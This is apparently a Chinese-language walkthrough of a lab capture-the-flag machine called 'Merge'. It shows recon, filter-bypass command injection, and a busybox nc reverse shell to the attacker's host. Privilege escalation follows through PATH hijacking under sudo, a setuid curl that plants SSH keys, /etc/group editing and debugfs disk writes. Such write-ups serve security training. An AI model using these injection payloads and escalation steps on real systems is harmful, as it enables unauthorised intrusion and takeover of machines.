


| 作者 | 难度   | 平台    |
| ---- | ------ | ------- |
| 111  | Medium | mazesec |

## 信息收集

```sh
╭─ ~ ────────────────────────────────────────────────────────────────────── ✔  root@kali  22:41:30 
╰─ nmap 192.168.56.128 -p-
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-03 22:41 -0400
Nmap scan report for 192.168.56.128
Host is up (0.00076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E7:AC:96 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 30.43 seconds

╭─ ~ ──────────────────────────────────────────────────────────────── ✔  31s  root@kali  22:42:29 
╰─ nmap 192.168.56.128 -p22,80 -A
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-03 22:49 -0400
Nmap scan report for 192.168.56.128
Host is up (0.0021s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7+deb13u1 (protocol 2.0)
80/tcp open  http    nginx
|_http-title: \xE7\xA6\xBB\xE7\xBA\xBFIP\xE5\x9C\xB0\xE5\x9D\x80\xE6\x9F\xA5\xE8\xAF\xA2
MAC Address: 08:00:27:E7:AC:96 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Google Chromecast with Google TV (Android 10, Linux 4.9) (93%), Android 5 - 10 (Linux 3.4 - 3.18) (93%), Linux 2.6.32 (93%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Linux 5.10 - 5.19 (93%), Linux 3.2 - 4.14 (93%), Linux 5.4 - 5.10 (93%), OpenWrt 21.02 (Linux 5.4) (93%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   2.09 ms 192.168.56.128

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.93 seconds
```

只开了两个端口，`22 80`.



这里可以进行 `ip` 查询，尝试命令执行，发现过滤了:

```sh
& | ; 空格 ` $ 
```

这里可以利用`%0a`进行绕过，在shell中 `换行符\n` 等价于命令分隔符。

```sh
╭─ ~ ──────────────────────────────────────────────────────────────────── 5 ✘  root@kali  23:06:51 
╰─ curl -X POST -d "ip=127.0.0.1%0aid" http://192.168.56.128

<body>
<div class="main">
<form class="form-group" method="POST" action="">
<input type="text" name="ip" id="ipInput" placeholder="输入IP地址查询" value="127.0.0.1
id" autofocus>
<button type="submit">查询</button>
</form>
<div class="result result-success"><pre>127.0.0.1 [本机地址] 
uid=33(www-data) gid=33(www-data) groups=33(www-data)</pre></div>
</div>
<div class="footer">
<a href="https://maze-sec.com" target="_blank">maze-sec</a>
</div>
<script>
document.addEventListener('keydown', function(e) {
    if (e.key === '/' && document.activeElement !== document.getElementById('ipInput')) {
        e.preventDefault();
        document.getElementById('ipInput').focus();
    }
});
</script>
</body>
```

## 尝试反向shell获取立足点

`%09` 被 URL 解码后是水平制表符 Tab, 在shell中通常被当作空白分隔符，作用类似于空格。

```sh
╭─ ~ ────────────────────────────────────────────────────────────────────── ✔  root@kali  23:12:13 
╰─ curl -X POST -d "ip=127.0.0.1%0abusybox%09nc%09192.168.56.101%0939666%09-e%09/bin/bash" http://192.168.56.128

╭─ ~ ────────────────────────────────────────────────────────────────────── ✔  root@kali  23:09:59 
╰─ nc -lvnp 39666
listening on [any] 39666 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.128] 42538
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# 优化反向shell
script -qc /bin/bash /dev/null
# ctrl + z
stty raw -echo; fg
reset
xterm
www-data@Merge:~/html$ export SHELL=/bin/bash
www-data@Merge:~/html$ export TERM=xterm
www-data@Merge:~/html$ stty size                                               
24 80
www-data@Merge:~/html$ stty rows 28 columns 104                                  
www-data@Merge:~/html$ 
```

## 系统内部信息收集

```sh
www-data@Merge:~/html$ cat /etc/passwd | grep bash                                                     
root:x:0:0:root:/root:/bin/bash
mono:x:1000:1000::/home/mono:/bin/bash
lnnn:x:1001:1001::/home/lnnn:/bin/bash
admin:x:1002:1002::/home/admin:/bin/bash

www-data@Merge:~/html$ ls -al /home
total 20
drwxr-xr-x  5 root  root  4096 May 22 06:04 .
drwxr-xr-x 18 root  root  4096 May 16 05:19 ..
drwx------  2 admin admin 4096 May 22 09:22 admin
drwx------  2 lnnn  lnnn  4096 May 22 06:10 lnnn
drwx------  2 mono  mono  4096 May 22 06:03 mono

www-data@Merge:~/html$ find / -user admin 2>/dev/null
/opt/admin
/home/admin

www-data@Merge:~/html$ ls -al /opt
total 20
drwxr-xr-x  4 root  root 4096 May 22 09:19 .
drwxr-xr-x 18 root  root 4096 May 16 05:19 ..
drwxr-xr-x  2 root  root 4096 May 22 06:09 Dirty-Merge
drwxr-x---  2 admin lnnn 4096 May 22 09:20 admin
-rw-r--r--  1 root  root   30 May 22 06:07 pass.txt
```

发现密码：

```sh
www-data@Merge:~/html$ cat /opt/pass.txt 
mono:0ysP8axqGSAkvXnkvxxukVnz
```

获取`mono`的凭证。

### 横向移动

#### mono

```sh
mono@Merge:~$ sudo -l
Matching Defaults entries for mono on Merge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty,
    env_keep+=PATH, !secure_path

User mono may run the following commands on Merge:
    (lnnn) NOPASSWD: /opt/Dirty-Merge/dirty_merge
```

`env_keep+=PATH` 表示保留当前用户`mono`的PATH环境变量，`secure_path` 用预设的安全路径覆盖掉原来的PATH环境变量。

只有`env_keep+=PATH !secure_path` 同时存在，才能确保：执行 `/opt/Dirty-Merge/dirty_merge` 时使用的是用户 `mono` 自己设置的 PATH，而不是系统预设的安全路径。

```sh
mono@Merge:/opt/Dirty-Merge$ sed -n "550,800p" gro_fragnesia.c  | grep system
        ret = system("ip link add veth0 type veth peer name veth1");
        ret = system("ip addr add 10.0.0.1/24 dev veth0");
        ret = system("ip link set veth0 up");
                ret = system("ip link set lo up");
                ret = system("ip addr add 10.0.0.2/24 dev veth1");
                ret = system("ip link set veth1 up");
                ret = system("ethtool -K veth1 gro on");
        ret = system(buf);
```

执行命令用的是相对路径，所以可以使用环境变量PATH劫持：

```sh
mono@Merge:/tmp$ export PATH=/tmp:$PATH
mono@Merge:/tmp$ echo $PATH
/tmp:/usr/src/linux-headers-7.0.8-1-liquorix-amd64/tools/power/x86/x86_energy_perf_policy:/usr/src/linux-headers-7.0.8-1-liquorix-amd64/tools/power/x86/turbostat:/usr/src/linux-headers-7.0.8-1-liquorix-amd64/tools/power/cpupower:/usr/src/linux-headers-7.0.8-1-liquorix-amd64/tools/perf:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

mono@Merge:/tmp$ vim ethtool
mono@Merge:/tmp$ cat ethtool
echo "success"
mkdir /home/lnnn/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfy3402O5EN6KOaInOukRh3bNQwoLDjEs88Wb+TuN3f root@kali" > /home/lnnn/.ssh/authorized_keys
chmod 600 /home/lnnn/.ssh/authorized_keys
chmod 700 /home/lnnn/.ssh
mono@Merge:/tmp$ chmod +x ethtool
mono@Merge:/tmp$ sudo -u lnnn /opt/Dirty-Merge/dirty_merge
```

#### lnnn

```sh
╭─ ~ ────────────────────────────────────────────────────────────────── INT ✘  root@kali  04:27:47 
╰─ ssh lnnn@192.168.56.128 -p 22
Linux Merge 7.0.8-1-liquorix-amd64 #1 ZEN SMP PREEMPT liquorix 7.0-8.1~trixie (2026-05-15) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lnnn@Merge:~$ ls -al /opt
total 20
drwxr-xr-x  4 root  root 4096 May 22 09:19 .
drwxr-xr-x 18 root  root 4096 May 16 05:19 ..
drwxr-x---  2 admin lnnn 4096 May 22 09:20 admin
drwxr-xr-x  2 root  root 4096 May 22 06:09 Dirty-Merge
-rw-r--r--  1 root  root   30 May 22 06:07 pass.txt
lnnn@Merge:~$ cd /opt/admin
lnnn@Merge:/opt/admin$ ls -al
total 328
drwxr-x--- 2 admin lnnn    4096 May 22 09:20 .
drwxr-xr-x 4 root  root    4096 May 22 09:19 ..
-rwsr-sr-x 1 admin admin 321880 May 22 09:19 curl
-rw-r--r-- 1 root  root     105 May 22 09:20 hint.txt
lnnn@Merge:/opt/admin$ cat hint.txt
关注详细的参数帮助信息
Focus on the detailed parameter help information

lnnn@Merge:/opt/admin$ curl --help category
auth         认证方法
connection   连接管理
curl         curl 命令行工具本身
deprecated   已废弃/旧版选项
dns          DNS 名称解析
file         FILE 协议
ftp          FTP 协议
global       全局选项
http         HTTP 和 HTTPS 协议
imap         IMAP 协议
ldap         LDAP 协议
output       文件系统输出
pop3         POP3 协议
post         HTTP POST 相关选项
proxy        代理选项
scp          SCP 协议
sftp         SFTP 协议
smtp         SMTP 协议
ssh          SSH 协议
telnet       TELNET 协议
tftp         TFTP 协议
timeout      超时和延迟
tls          TLS/SSL 相关
upload       上传/发送数据
verbose      详细输出、跟踪、日志等

lnnn@Merge:/opt/admin$ curl --help output
output: 文件系统输出
--create-dirs 创建必要的本地目录层级
--fail-with-body 遇到 HTTP 错误时返回失败，但仍保存响应 body
-N, --no-buffer 禁用输出流缓冲
--no-clobber 不要覆盖已经存在的文件
-o, --output <file> 把输出写入指定文件，而不是输出到 stdout
--output-dir <dir> 指定保存文件的目录
-J, --remote-header-name 使用响应头里提供的文件名
-O, --remote-name 使用远程文件名保存输出
--remote-name-all 对所有 URL 都使用远程文件名保存
-R, --remote-time 把远程文件的时间设置到本地输出文件上
--remove-on-error 出错时删除输出文件
-i, --show-headers 在输出中显示响应头
--skip-existing 如果本地文件已经存在，则跳过下载
--upload-flags <flags> IMAP 上传行为标志
-B, --use-ascii 使用 ASCII/文本传输
--xattr 把元数据存储到扩展文件属性中

lnnn@Merge:/opt/admin$ curl --help file
file: FILE 协议
--create-file-mode <mode> 设置新创建文件的权限模式
-I, --head 只显示文档信息/头信息，不显示内容
-l, --list-only 只列出内容，不下载/显示完整数据
-r, --range <range> 只获取指定 RANGE 范围内的字节
```

`-o --create-file-mode --create-dirs`：这三个参数可以让我们以admin的身份进行写入。

通过上面的三个参数将`id_ed25519.pub`文件写入到`/home/admin/.ssh/authorized_keys`文件里。

```sh
╭─ ~/.ssh ───────────────────────────────────────────────────────────────── ✔  root@kali  04:44:29 
╰─ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

lnnn@Merge:/opt/admin$ ./curl -o /home/admin/.ssh/authorized_keys --create-dirs --create-file-mode 600 http://192.168.56.101:8000/id_ed25519.pub
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    91  100    91    0     0   5586      0 --:--:-- --:--:-- --:--:--  5687
```

#### admin

```sh
╭─ ~/.ssh ────────────────────────────────────────────────────────────────────────────────────────────────── ✔  2m 45s  root@kali  04:51:12 
╰─ ssh admin@192.168.56.128 -p 22
Linux Merge 7.0.8-1-liquorix-amd64 #1 ZEN SMP PREEMPT liquorix 7.0-8.1~trixie (2026-05-15) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
admin@Merge:~$ ls -al
total 28
drwx------ 3 admin admin 4096 Jun  4 04:51 .
drwxr-xr-x 5 root  root  4096 May 22 06:04 ..
-rw-r--r-- 1 admin admin  220 Mar  8 11:21 .bash_logout
-rw-r--r-- 1 admin admin 3526 Mar  8 11:21 .bashrc
-rw-r--r-- 1 root  root    29 May 22 09:20 hint.txt
-rw-r--r-- 1 admin admin  807 Mar  8 11:21 .profile
drwxr-x--- 2 admin admin 4096 Jun  4 04:51 .ssh
admin@Merge:~$ cat hint.txt
man,what can i do
```

进行常规的信息收集，发现：

```
admin@Merge:~$ find / -writable -type f -exec ls -al {} \; 2>/dev/null | grep -vE "proc|sys"
-rwsr-sr-x 1 admin admin 321880 May 22 09:19 /opt/admin/curl
-rw-r--r-- 1 admin admin 807 Mar  8 11:21 /home/admin/.profile
-rw-rw-r-- 1 admin admin 91 Jun  4 04:51 /home/admin/.ssh/authorized_keys
-rw-r--r-- 1 admin admin 3526 Mar  8 11:21 /home/admin/.bashrc
-rw-r--r-- 1 admin admin 220 Mar  8 11:21 /home/admin/.bash_logout
-rw-rw-r-- 1 root admin 665 May 22 06:04 /etc/group
```

## 权限提升

我们对于`/etc/group`具有写入权限，我们可以给任意用户添加新的组；我记得/etc/sudoers默认规则里有：`%sudo  ALL=(ALL:ALL) ALL`，`mono`，我们知道密码，把`mono`添加到`sudo`组，我们就可以以任何用户的身份执行任何权限：

```sh
vim /etc/group
```



```sh
mono@Merge:/tmp$ id
uid=1000(mono) gid=1000(mono) groups=1000(mono)
mono@Merge:/tmp$ newgrp sudo
mono@Merge:/tmp$ id
uid=1000(mono) gid=27(sudo) groups=27(sudo),1000(mono)
mono@Merge:/tmp$ sudo bash
[sudo] password for mono: 
root@Merge:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@Merge:/tmp# 
```

## disk权限提升

disk 组用户通常可以直接`读写`块设备，**通常可以读写块设备，但不一定可以读写**。

1. 确认当前用户是否在`disk`组里：

```sh
admin@Merge:~$ id
uid=1002(admin) gid=1002(admin) groups=1002(admin),6(disk)
```

2. 定位目标分区、确认文件系统类型、确认挂载点：

```sh
lsblk -f
# 看所有块设备和挂载点
df -hT
# 查看当前已挂载分区、类型、容量
findmnt
# 看挂载树，结构更清楚
```

这三种方式可以查看哪个是`ext系列文件系统`，因为`debugfs`主要能读写ext系列文件系统。

`the0n3` 推荐三种方法：

1. 读取私钥/shadow
2. sudo提权
3. 写入公钥

这三种是最稳定的，后面的两个需要重启后才能生效，我并没有进行验证。

方法三：

```sh
admin@Merge:~$ cat /tmp/a
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfy3402O5EN6KOaInOukRh3bNQwoLDjEs88Wb+TuN3f root@kali
admin@Merge:~$ ./debugfs -w /dev/sda1
debugfs 1.47.4 (6-Mar-2025)
debugfs:  write /tmp/a /root/.ssh/authorized_keys
Allocated inode: 542507
debugfs:  q
admin@Merge:~$ 
```
